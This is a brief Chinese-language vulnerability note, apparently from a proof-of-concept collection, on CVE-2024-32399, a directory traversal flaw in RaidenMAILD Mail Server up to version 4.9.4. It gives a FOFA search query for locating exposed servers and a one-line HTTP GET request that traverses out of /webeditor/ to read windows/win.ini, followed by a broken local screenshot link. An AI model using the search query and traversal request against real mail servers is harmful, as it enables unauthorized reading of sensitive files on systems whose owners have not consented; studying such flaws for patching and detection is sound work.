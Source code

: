 # aidenMAILD 邮件服务器 路径遍历漏洞(CVE-2024-32399)

## 1.漏洞描述

RaidenMAILD是一款强大的电子邮件服务器，该软件可以在相当短的时间内将它架设起来邮件服务器，操作简单，功能齐全，稳定运作。适用于全 Windows 平台的电子邮件伺服器。RaidenMAILD Mail Server 4.9.4及之前版本中的目录遍历漏洞使远程攻击者能够通过/webeditor/组件获取敏感信息。

## 2.影响版本

RaidenMAILD Mail Server <= 4.9.4

## 3.搜索语法

```java
 fofa：body="RaidenMAILD"
```

## 4.漏洞复现

POC

```java
GET /webeditor/../../../windows/win.ini HTTP/1.1
```

![image-20240905200917200](C:\Users\27105\AppData\Roaming\Typora\typora-user-images\image-20240905200917200.png)
